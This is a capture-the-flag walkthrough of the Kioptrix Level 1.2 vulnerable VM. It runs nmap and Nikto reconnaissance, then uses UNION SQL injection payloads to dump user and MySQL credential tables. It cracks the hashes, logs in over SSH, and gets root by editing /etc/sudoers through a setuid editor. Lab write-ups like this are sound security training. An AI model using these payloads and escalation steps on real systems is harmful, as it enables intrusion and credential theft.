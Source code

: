 ```yaml
---
layout: post
title:  "Kioptrix: Level 1.2 (#3)"
date:   2017-04-01
summary: Kioptrix Level 1.2 (#3) walkthrough
---
```


### Setup
Download and unzip the vm, then mount the .vmdk file as storage in your vm config and setup your network settings. Note that this vm should auto detect using DHCP.

We also need to add the web apps hostname to hosts, this should be done after finding the host on the network.

{% highlight python %}
echo "192.168.56.102 kioptrix3.com" >> /etc/hosts
{% endhighlight %}

# Kioptrix: Level 1.2 (#3)
To start we need to find the host on the network, to do this I used nmap to do a ping scan on the subnet:

{% highlight python %}
nmap -sn 192.168.56.0/24

Nmap scan report for kioptrix3.com (192.168.56.102)
Host is up (-0.090s latency).
{% endhighlight %}

## Information gathering
Now we know the IP of the host we can use port scanning to see what services are running. With nmap we can also do some banner grabbing, version checking, OS detection and enumeration of services:

{% highlight python %}
nmap -sS -sV -O 192.168.56.102

Nmap scan report for kioptrix3.com (192.168.56.102)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
MAC Address: 08:00:27:B2:2A:A5 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.33
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
{% endhighlight %}

The result only shows 2 interesting services, ports 22 (ssh) and 80 (http).

## Web app
The web application is the next place to start gathering information from (its tech stack and functionality) then move on from there. From the nmap scan we know Apache 2.2.8 is running on Ubuntu with PHP 5.2.4-2. To assess the web app we will browse it and note its main functionality then give it a scan with Nikto.

* Gallery CMS
	queries database for photos and sort function
	http://kioptrix3.com/gallery/gallery.php?id=1
* Blog with comments
* Login (powered by lotuscms)
* Nikto scan
	+ Cookie PHPSESSID created without the httponly flag
	+ The X-XSS-Protection header is not defined. 
	+ The X-Content-Type-Options header is not set.
	+ OSVDB-3092: /phpmyadmin/changelog.php:
	+ /phpmyadmin/: phpMyAdmin directory found
	+ OSVDB-3092: /phpmyadmin/Documentation.html
* PHPMyAdmin (2.11.3deb1ubuntu1.3)
	Can login with username admin and a blank password (not full privileges)
	MySQL client version: 5.0.51a

From the information gathered we can see the main attack surface is the web app and its supporting components (Lotuscms and phpMyAdmin). We also have version numbers of several components. The first step is to identify any known vulnerabilities in the versions used then move onto the web app functionality.

phpMyAdmin 2.11.3  
There are a number of vulnerabilities in phpMyAdmin including a potential SQL injection but it requires create table functionality, the admin account doesn't seem to have privileges.

### SQL injection
The gallery app allows us to view images and details of those images, it also has a sort function that queries the db. Here we want to test for sql injection. To do this we supply unexpected syntax eg quotes to see what happens. Using ' we get a verbose error message, perfect.
{% highlight python %}
http://kioptrix3.com/gallery/gallery.php?id=1'
{% endhighlight %}
Returns the error:

>"You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' order by parentid,sort,name' at line 1Could not select category"
This error message basically means we can modify the sql query and the app is vulnerable to injection.

Now we want to extract usernames and passwords from the db, to do this we need to use the union operator to combine the results from two queries into one set of results. The drawback of this is that the second query needs to contain the same number of columns as the first and the datatypes must also match. 

To find the number of columns that are in the query we simply add columns until we no longer get an error message.
{% highlight python %}
1 union select 1,2,3,4,5,6--
{% endhighlight %}
From here we can now extract useful data from the db in the string columns eg db name, version etc.
{% highlight python %}
1 union select 1,version(),3,4,5,6--

version()	- 5.0.51a-3ubuntu5.4
database()	- gallery 
user()		- root@localhost
{% endhighlight %}
Now we have a query that works we want to extract usernames and passwords, to do this we need to find the table and column names. This can be done by looking up the metadata about the tables in the information schema.
{% highlight python %}
1 union select 1,table_name,column_name,4,5,6 from information_schema.columns--
{% endhighlight %}
Couple of tables are of interest the gallarific_users, dev_accounts and the user.

{% highlight sql %}
1 union select 1,username,password,4,5,6 from gallarific_users--

admin
n0t7t1k4

1 union select 1,username,password,4,5,6 from dev_accounts--

dreg
0d3eccfb887aabd50f243b3f155c0f85
loneferret
5badcaf789d3d1d09794d8f021f40f0e

1 union select 1,user,password,4,5,6 from mysql.user--

root
*47FB3B1E573D80F44CD198DC65DE7764795F948E
debian-sys-maint
*F46D660C8ED1B312A40E366A86D958C6F1EF2AB8
{% endhighlight %}

Now we have couple of hashes to crack, this can be done online or using a world list. 

### Password cracking
Using hash-identifier we can identify possible hash types, both the hashes from the dev_accounts table are MD5 and the hashes from the mysql.user table are MySQL4.1/MySQL5 / MySQL 160bit - SHA-1.

We can use an online rainbow table https://crackstation.net/ to identify the passwords from the hash.
{% highlight python %}
admin		n0t7t1k4
dreg		Mast3r
loneferret	starwars
root		fuckeyou
{% endhighlight %}
We got root but for whatever reason can't ssh into the box with it, however it does work for phpmyadmin.

### Privilege escalation
We can ssh into the box using dreg and loneferret, dreg has no interesting files but loneferret has a couple (checksec.sh and CompanyPolicy.README). The checksec.sh bash script checks security properties of binaries, the company policy readme contains a message about using the command 'ht' for file editing.

>Hello new employee,  
It is company policy here to use our newly installed software for editing, creating and viewing files.
Please use the command 'sudo ht'.
Failure to do so will result in you immediate termination.  
DG  
CEO

However running the command produces an error:
{% highlight python %}
loneferret@Kioptrix3:~$ sudo ht
Error opening terminal: xterm-256color.
{% endhighlight %}
After a quick search online we need to change an environment variable.
{% highlight python %}
export TERM=xterm
{% endhighlight %}
To start with lets check the security properties of ht.
{% highlight python %}
whereis ht
ht: /usr/local/bin/ht

./checksec.sh --file=/usr/local/bin/ht

loneferret@Kioptrix3:~$ ls -l /usr/local/bin/ht
-rwsr-sr-x 1 root root 2072344 2011-04-16 07:26 /usr/local/bin/ht
{% endhighlight %}
The bash script didn't find anything interesting, however after listing the directory we can see ht has setuid set. This means when we run the ht editor it will run with root privileges, and because ht is a file editor we can now edit files with root access. Now we want to give the loneferret user root privileges.

To do this we can edit the sudo users file `/etc/sudoers` and add `/bin/sh` to loneferret, then we can `sudo /bin/sh` to get a shell as root.
{% highlight python %}
sudo /bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
{% endhighlight %}
## Conclusion
The web app contains SQL injection which allows us to extract user names and passwords, these are then cracked and used to ssh into the box. The loneferret home folder contained a note requesting the use of ht to edit files. When run the binary runs as root so we are able to edit any files as if we were the root user.